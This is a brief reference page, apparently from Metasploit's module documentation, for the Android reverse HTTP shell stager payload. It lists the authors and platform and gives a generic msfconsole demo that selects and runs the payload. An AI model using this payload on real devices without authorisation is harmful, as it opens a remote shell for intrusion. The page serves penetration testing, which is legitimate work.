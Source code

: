 ## Command Shell, Dalvik Reverse HTTP Stager

Spawn a piped command shell (sh). Tunnel communication over 
HTTP


## Module Name
payload/android/shell/reverse_http

## Authors
* mihi
* egypt
* anwarelmakrahy
* OJ Reeves





## Platforms
* android

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/android/shell/reverse_http
msf payload(reverse_http) > show targets
   ... a list of targets ...
msf payload(reverse_http) > set TARGET <target-id>
msf payload(reverse_http) > show options
   ... show and set options ...
msf payload(reverse_http) > run
```
    
    